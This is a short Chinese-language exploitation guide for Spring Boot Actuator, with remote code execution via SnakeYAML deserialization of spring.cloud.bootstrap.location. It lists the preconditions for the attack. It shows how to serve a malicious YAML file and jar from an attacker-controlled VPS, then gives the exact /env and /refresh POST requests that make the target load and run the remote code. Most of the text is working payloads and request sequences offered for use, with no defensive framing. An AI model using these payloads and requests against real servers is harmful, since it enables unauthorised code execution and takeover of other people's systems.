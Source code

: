 **利用条件**

- 可以 POST 请求目标网站的 /env 接口设置属性
- 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
- 目标依赖的 spring-cloud-starter 版本 < 1.3.0.RELEASE
- 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

1. 托管yml和jar文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在网站根目录下放置后缀为 yml 的文件 example.yml，内容如下：

```yml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-vps-ip/example.jar"]
  ]]
]
```

在网站根目录下放置后缀为 jar 的文件 example.jar，内容是要执行的代码，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)。

2. 设置 spring.cloud.bootstrap.location 属性

spring 1.x
```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/example.yml
```

spring 2.x
```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/example.yml"}
```

3. 刷新配置

spring 1.x
```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x
```
POST /actuator/refresh
Content-Type: application/json
```
